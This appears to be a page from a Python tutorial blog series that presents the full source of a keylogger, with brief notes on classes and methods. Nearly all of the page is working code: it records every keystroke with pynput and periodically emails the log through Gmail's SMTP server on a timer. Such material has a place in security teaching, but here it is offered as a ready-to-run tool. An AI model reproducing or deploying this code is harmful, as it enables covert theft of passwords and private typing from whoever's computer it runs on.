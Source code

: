 ```yaml
---
permalink: /python_101/keylogger/keylogger.md
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


## This script includes all methods and classes used by the keylogger.

-  Each function within a class is termed a method.

-  When instantiating an object instance as a class, automatically the methods are invoked and hence the first attribute of each method is named "self".

-  Call objects defined within a class using : "self.obj".

-  A Constructor is automatically executed when a class is created.

-  An Attribute is a variable that can be used within the whole class and by its respective methods. (This is a secure alternative to using global definitions.)



### Code: 

```python
#!/usr/bin/env python

import pynput.keyboard
import threading
import smtplib
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-t", "--time-interval", dest="interval", help="Time Interval to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    if not options.interval:
        # code to handle error
        parser.error("\n[-] Please specify a valid Time Interval,  use --help for info.")
    if not options.password:
        # code to handle error
        parser.error("\n[-] Please specify a valid Password,  use --help for info.")
    return options

class Keylogger:
    # Constructor definition
    def __init__(self, time_interval, email, password):
        # Attribute definition
        self.log = "[!] Keylogger Started"
        self.interval = time_interval
        self.email = email
        self.password = password

    def append_to_log(self, string):
        self.log = self.log + string

    def process_key_press(self, key):
        try:
            current_key = str(key.char)
        except AttributeError:
            # Replace key.space as space
            if key == key.space:
                current_key = " "
            else:
                # Space special chars out
                current_key = " " + str(key) + " "
        self.append_to_log(current_key)


    # Recursive function
    def report(self):
        self.send_mail(self.email, self.password, "\n\n" + self.log)
        # Reset
        self.log = ""
        # Running timer on an alternate thread
        # Wait for 5 secs and report
        timer = threading.Timer(self.interval, self.report)
        timer.start()

    # Create SMTP server instance to send email
    def send_mail(self, email, password, message):
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login(email, password)
        server.sendmail(email, email, message)
        server.quit()

    # Start keylogger
    def start(self):
        # Create instance
        keyboard_listener = pynput.keyboard.Listener(on_press=self.process_key_press)
        # Start listener
        with keyboard_listener:
            self.report()
            keyboard_listener.join()

banner = """
    
|      ___           __   __   __   ___  __  
|__/ |__  \ / |    /  \ / _` / _` |__  |__) 
|  \ |___  |  |___ \__/ \__> \__> |___ |  \ 
                                            
[!] Keylogger Started >.<
  """
```